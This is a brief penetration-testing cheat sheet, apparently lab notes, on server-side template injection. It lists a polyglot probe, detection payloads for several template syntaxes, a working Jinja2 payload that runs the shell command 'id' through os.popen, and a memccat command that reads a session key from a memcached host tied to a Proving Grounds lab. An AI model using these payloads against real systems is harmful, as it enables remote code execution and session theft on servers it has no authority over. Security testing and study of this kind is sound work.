 ## SSTI (Server-Side Template Injection)
- Polyglot check: `${{<%[%'"}}%\.`

### Payloads
```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
*{7*7}
```

### Jinja2
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

### Python RCE
```python
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

### Memcached
```bash
memccat --server=192.168.206.59 session:0c4c0507-a016-41c5-9896-0854a93f49d1
```
- See **Shifty** on Proving Grounds
